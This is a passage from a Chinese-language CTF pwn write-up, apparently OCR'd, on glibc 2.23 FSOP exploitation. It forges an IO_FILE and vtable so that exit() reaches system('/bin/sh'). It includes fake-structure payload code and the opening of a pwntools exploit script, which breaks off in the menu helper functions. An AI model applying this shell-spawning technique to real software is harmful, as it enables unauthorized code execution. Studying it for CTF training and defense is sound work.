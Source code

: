 劫持`_IO_list_all`后就可以伪造一个`IO_FILE`结构体，并伪造其`vtable`（glibc-2.23没有对`vtable`的合法性检查），程序里面有`exit`的功能，会调用`exit()`，因此这里选择的是走`exit() -> ... ->  _IO_flush_all_lockp() -> _IO_OVERFLOW`的链。

为此伪造的IO_FILE需要满足以下条件：

1. `fp->_mode<=0`
2. `fp->_IO_write_ptr > fp->_IO_write_base`

伪造`_flags="/bin/sh\x00"`，`vtable`中的`_IO_OVERFLOW=system`，当调用`exit()`时就会一路调用到`system("/bin/sh\x00")`。

伪造的`IO`如下：

```py
# construct fake io
payload=p64(0)*3+p64(sys_addr)+'a'*0x70
fake_io="/bin/sh\x00"+p64(0x1411)
fake_io+=p64(0)*3+p64(1)+p64(0)
fake_io=fake_io.ljust(0xd8,'\x00')
fake_io+=p64(heapbase+0x150) # vtable
payload+=fake_io
```

## exp

```py
from pwn import*
context(log_level='debug',os='linux',arch='amd64')
filename='pwn'
elf=ELF('./'+filename)
libc=ELF('./2.23-0ubuntu11.3_amd64/libc-2.23.so')
p=process('./'+filename)
#p=remote('',)

s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\x00'))
uu64    = lambda data               :u64(data.ljust(8,'\x00'))
leak    = lambda name,addr          :log.success('{} = {}'.format(name, addr))

def debug(cmd='\n'):
  gdb.attach(p,cmd)
  pause()


def add(length,content):
  ru("4.exit\n")
  sl("1")
  ru("Content length:\n")
  sl(str(length))
  ru("Content:")
  s(str(content))

def delete(id):
  ru("4.exit\n")
  sl("3")
  ru("Content id:\n")
  sl(str(id))

def edit(addr):
  ru("4.exit\n")
  sl("2")
```